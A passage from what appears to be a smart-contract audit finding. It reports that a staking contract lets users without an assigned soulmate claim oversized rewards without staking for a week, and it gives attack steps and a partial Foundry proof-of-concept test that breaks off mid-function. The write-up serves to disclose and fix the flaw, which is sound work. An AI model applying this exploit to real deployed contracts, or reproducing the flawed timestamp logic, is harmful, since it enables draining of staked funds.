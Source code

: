 This timestamp is later used to determine the number of tokens to reward the caller:

```javascript
// How many weeks passed since the last claim.
// Thanks to round-down division, it will be the lower amount possible until a week has completly pass.
uint256 timeInWeeksSinceLastClaim = ((block.timestamp -
    lastClaim[msg.sender]) / 1 weeks);
```

`soulmateContract.idToCreationTimestamp()` will return `0` if the caller initiates `Soulmate.sol::mintSoulmateToken()` but still waits for a soulmate to be assigned.
`soulmateContract.idToCreationTimestamp()` will return the creation timestamp of the token with id `0` if the caller didn't initiate `Soulmate.sol::mintSoulmateToken()`.

This will allow users who do not have soulmates to claim rewards without staking tokens for at least a week, and potentially claim more rewards than they would normally be eligible for.

In the end, this vulnerability has the potential to cause a drain of funds from the staking vault.

## Impact

Users without soulmates can claim rewards without staking tokens for at least a week and receive more than they deserve.

## Proof of Concept (PoC)

- [1] The attacker mints a Soulmate NFT.
- [2] The attacker claims ERC20 tokens from the Airdrop contract.
- [3] The attacker transfers the ERC20 tokens to another account they control, which doesn't hold a Soulmate NFT.
- [4] Using an account that doesn't hold a Soulmate NFT, the attacker attempts to find a soulmate.
- [5] The attacker stakes ERC20 tokens using an account that doesn't yet have a soulmate assigned but holds ERC20 tokens.
- [6] The attacker claims rewards without staking tokens for at least a week and receives more than they deserve.

Add the following test in `StakingTest.t.sol`:

```javascript
function test_usersWithoutSoulmatesCanClaimMoreRewardsWithoutStakingLongEnough(address random) public {
    vm.assume(random != address(soulmateContract) && random != address(loveToken) &&
                random != address(stakingContract) && random != address(airdropContract) &&
                random != address(airdropVault) && random != address(stakingVault)
    );

    assertEq(soulmateContract.soulmateOf(random), address(0)); // Non-NFT holder

    // attacker can mint NFT with one account
    _mintOneTokenForBothSoulmates();

    uint256 mockedBlockTimestamp = 1707973127; // timestamp of Ethereum block number `19231100`
    vm.warp(mockedBlockTimestamp);

    uint256 amountToStake = 1;

    // attacker can claim ERC20 tokens and then transfer them to another account that they control
    vm.startPrank(soulmate1);
    airdropContract.claim();
    loveToken.transfer(random, amountToStake);
    vm.stopPrank();
    assertEq(loveToken.balanceOf(random), amountToStake);

    uint256 stakingVaultTokenBalanceBeforeRewardsClaim = loveToken.balanceOf(address(stakingVault));
```